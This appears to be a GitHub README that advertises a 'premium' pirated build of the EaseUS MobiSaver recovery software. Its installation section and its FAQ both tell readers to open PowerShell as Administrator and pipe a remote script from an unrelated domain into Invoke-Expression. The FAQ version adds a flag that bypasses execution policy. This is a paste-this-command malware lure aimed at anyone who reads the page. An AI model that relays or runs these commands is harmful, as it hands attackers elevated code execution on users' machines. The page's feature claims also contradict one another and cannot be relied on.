

<div align="center">


<br>


# EaseUS MobiSaver Data Recovery Premium
**Premium mobile data saver · iOS Android recovery · Contact and message restore**
<br>
**Premium mobile data saver · iOS Android recovery · Contact and message restore**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all MobiSaver modules and premium data recovery tools enabled.**

</div>
---

> Licensed premium MobiSaver with mobile recovery and every contact restore module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

💾 **Deep recovery scan** — Professional restore workflows for drives and partitions.
📦 **Local technician toolkit** — Works after one-time Windows setup.
🖥️ **Windows optimized** — Built for desktop recovery workstations.
⚙️ **Pro modules** — Premium recovery features enabled in this build.
📋 **Complete toolkit** — Scan, preview and export workflows included.
✨ **Enterprise ready** — Suitable for IT and power-user deployment.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 500 MB.
</details>


TAGS
easeus-mobisaver, mobile-recovery, contact-restore, message-recovery, ios-android, data-saver, professional, windows, desktop, software, pro, studio, tools
